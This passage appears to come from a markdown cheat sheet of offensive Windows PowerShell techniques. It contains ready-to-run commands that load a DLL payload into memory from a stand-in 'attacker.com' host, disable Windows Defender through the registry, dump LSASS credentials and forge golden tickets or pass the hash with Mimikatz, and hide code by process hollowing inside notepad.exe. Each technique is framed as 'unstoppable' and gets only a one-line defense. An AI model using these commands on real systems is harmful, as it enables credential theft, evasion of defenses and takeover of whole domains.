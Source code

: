 #### **B. Reflective DLL Injection**  
```powershell  
# Load a malicious DLL directly into memory (no disk writes)  
$bytes = (Invoke-WebRequest -Uri "http://attacker.com/shellcode.dll").Content;  
[System.Reflection.Assembly]::Load($bytes).EntryPoint.Invoke($null, $null)  
```  
- **Why Unstoppable?**: Fileless execution bypasses traditional antivirus.  
- **Defense**: Use **Constrained Language Mode** and EDR tools.  

#### **C. Disabling Defender via Registry**  
```powershell  
# Kill Defender permanently via registry  
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1  
```  
- **Why Unstoppable?**: Disables Defender if Tamper Protection is off.  
- **Defense**: Enable **Tamper Protection**.  

---

### **2. High-Impact Commands**  
#### **A. Dump LSASS Memory (Credential Theft)**  
```powershell  
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'  
```  
- **Impact**: Extracts plaintext passwords, Kerberos tickets, and NTLM hashes.  
- **Defense**: Enable **LSASS Protection** (`RunAsPPL`).  

#### **B. Golden Ticket Attack**  
```powershell  
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:corp.com /sid:S-1-5-21-... /krbtgt:HASH /ticket:C:\golden.kirbi"'  
```  
- **Impact**: Forges Kerberos tickets for unlimited domain access.  
- **Defense**: Rotate krbtgt account passwords twice.  

#### **C. Pass-the-Hash**  
```powershell  
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Admin /domain:corp /ntlm:HASH /run:cmd.exe"'  
```  
- **Impact**: Authenticates as a user without knowing their password.  
- **Defense**: Disable **NTLM** and enforce **Kerberos**.  

---

### **3. Evasion & Persistence**  
#### **A. Process Hollowing**  
```powershell  
$proc = Start-Process notepad.exe -PassThru -WindowStyle Hidden  
Invoke-ReflectivePEInjection -PEBytes $shellcode -ProcessID $proc.Id  
```  
- **Impact**: Runs malware inside a legitimate process (e.g., `notepad.exe`).  
- **Defense**: Monitor for code injection via EDR.  
